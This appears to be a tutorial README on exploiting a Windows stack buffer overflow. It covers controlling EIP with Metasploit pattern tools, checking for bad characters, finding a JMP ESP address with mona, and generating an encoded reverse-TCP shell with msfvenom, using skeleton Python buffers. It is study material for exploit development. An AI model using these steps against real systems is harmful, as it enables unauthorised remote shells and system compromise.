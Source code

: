 # BOF Exploitation


## 1. Replicating the crash

Once the vulnerability is discovered, we need to find the way to control the EIP. In this moment, the objective is to rewrite the fuzzer script that crashes the app with a fixed length (without loop). Let's say 800 bytes.

_____

## 2. Controlling EIP

The crucial step here is to find which part of our buffer (800 bytes) is landing in the EIP register. To do this, there are two common ways to do it:

#### 2.1 Binary Tree Analysis (slowest)

This method requires sending the buffer with half of it being A's and the other half being B's (AAAAA...BBBBB). If the EIP register is overwritten by B's, we know the EIP is inside the second half. We now take this half and split in two parts, left part being B's and the right part being C's. The process continues until we find the exact four bytes that overwrite EIP.

#### 2.2 Patterns (faster)

The point here is to create a long string that consists of non-repeated 4 bytes as the fuzzing data. Once the EIP is overwritten with these 4 bytes, we can identify where exactly happened using various tools.

```bash
#Creating the string with a length of 800 bytes:
msf-pattern_create -l 800
```

At this point, copy the value of the EIP register and execute the following command to extract the exact offset:

```bash
#-l is the length of the original string:
msf-pattern_offset -l 800 -q 42306142
```

Once identified the offset, we can execute a test by using A's for the offset, B's for 4 EIP bytes and C's for the rest. If the EIP is 0x42424242 we are good!

```python
filler = "A" * 780
eip = "B" * 4
buffer = "C" * 16
```
_____

## 2.3 Locating space for Shellcode

Looking at the last crash we made we can see that the ESP register points to our buffer of C's (but 4 bytes after).

Knowing that shellcodes have a size of 350-400 bytes approximately, we can increment our script with an additional 700 bytes to see if it allows enough space for our shellcode without breaking the buffer overflow:

```python
filler = "A" * 780
eip = "B" * 4
buffer = "C" * 4
shellcode = "D" * 700
```

Once the script is executed again, the ESP register should point to our shellcode placeholder (full of D's).

**Note that ESP address changes everytime we run the exploit.**

_____

## 2.4 Checking for Bad Characters

> A bad character is simply a list of unwanted characters that can break the shell codes. There is no universal set of bad characters, as we would probably be beginning to understand, but depending on the application and the developer logic there is a different set of bad characters for every program that we would encounter. Therefore, we will have to find out the bad characters in every application before writing the shell code.

Some of the very common bad characters are:

```
0x00 for NULL
0x0A for Line Feed
0x0D for Carriage Return
0xFF for Form Feed
```

A way to check which characters are bad for a particular exploit is to send all possible characters, from 0x00 to 0xFF, as part of the buffer and see how the application deals with it.

In order to test in our example, we can add them as our shellcode placeholder:

```python
filler = "A" * 780
eip = "B" * 4
buffer = "C" * 4
shellcode = "\x00\x01\x02\x03.....\xff"
```

After executing the script we need to right-click on the ESP register and click "Follow in Dump" and see which character is truncating our shellcode. We note that, delete it from the shellcode, and continue until the last character (xff).

_____

## 2.5 Redirecting the Execution Flow

We know that our shellcode is placed at the address pointed in the ESP register. Now we need a way to get that code executed. One way is to leverage a JMP ESP (which will "jump" into the address pointed in ESP).

We can find this JMP ESP instruction in the many Windows libraries, but needs some criteria:

1. Adresses used in the library must be static.
2. The address of the instruction must not contain bad characters.

### Using mona.py

To begin with our return address search we will use mona.py. In order to request information from all the DLLs or modules loaded by the application into the proccess memory, execute the following syntax in the bottom of Inmunity Debugger:


```
!mona modules
```

In this screen we should find a dll or module that have the flags from SEH, ASLR and NXCompact on false (those are for security purposes) and remember that **the address must not have bad chars.**

Once found, we need to find the address of a JMP ESP instruction within this module. To do this, first translate the instruction (JMP ESP) to opcode (hexadecimal):

```bash
#Using metasploit:
msf-nasm_shell
jmp esp #In this case: ffe4
#Take the Hexadecimal values
```

Now, search for it inside the module with mona:

```bash
#Change "\xff\xe4" with the correct opcode:
!mona find -s "\xff\xe4" -m "$MODULENAME"
```

Now mona should show the address fo the JMP ESP instruction. Remember that **the address must not have bad chars.**

If the address is ok and we redirect the EIP register to this address at the crash, the JMP ESP instruction will be executed and the program will execute our shellcode.

To do this, add the address in little endian format to our eip script:

```python
filler = "A" * 780
eip = "\x00\x00\x00\x00" #Change this for the little-endian values
buffer = "C" * 4
shellcode = "D" * 700
```

_____

## 2.6 Generating Shellcode

We can use metasploit msfvenom in order to generate our shellcode.

```bash
#List all types of shellcode:
msfvenom -l payloads
#Generate reverse TCP shell using C format (-f):
msfvenom -p windows/shell_reverse_tcp LHOST=$IPADDRESS LPORT=$PORT -f c
```

Note that the shellcode provided by msfvenom may contain bad chars. If this is the case, we need to encode it by using the following technique:

```bash
#-e: Specify the encode to use.
#-b: Specify the bad characters we don't want.
msfvenom -p windows/shell_reverse_tcp LHOST=$IPADDRESS LPORT=$PORT -f c -e x86/shikata_ga_nai -b "\x00\x00\x00\x00"
```

However, if the application contain lots of badchars, we just leave msfvenom without specifying any encode (-e) and it will itself generate one with a valid encoder.

In case the app supports threaded mode, we can use the EXITFUNC flag of msfvenom in order to prevent the crash of the application once the reverse shell is closed:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$IPADDRESS LPORT=$PORT EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x00\x00\x00"
```
_____

## Getting a reverse shell

In order to get a reverse shell, we only need to change our buffer of D's with the shellcode provided by msfvenom:

```python
filler = "A" * 780
eip = "\x00\x00\x00\x00" #Change this for the little-endian values
buffer = "C" * 4
shellcode = "\x00\x00.....\x00" #Change this wtih the correct shellcode
```

However, if we used some encoding technique in order to remove bad chars, we need to **add some NOPs (\x90)** before the shellcode because the process of decoding the shellcode will override a few bytes from the top of the stack (which is where our shellcode is placed). The final form of the script will be:

```python
filler = "A" * 780
eip = "\x00\x00\x00\x00" #Change this for the little-endian values
buffer = "C" * 4
nops = "\x90" * 10
shellcode = "\x00\x00.....\x00" #Change this wtih the correct encoded shellcode.
```

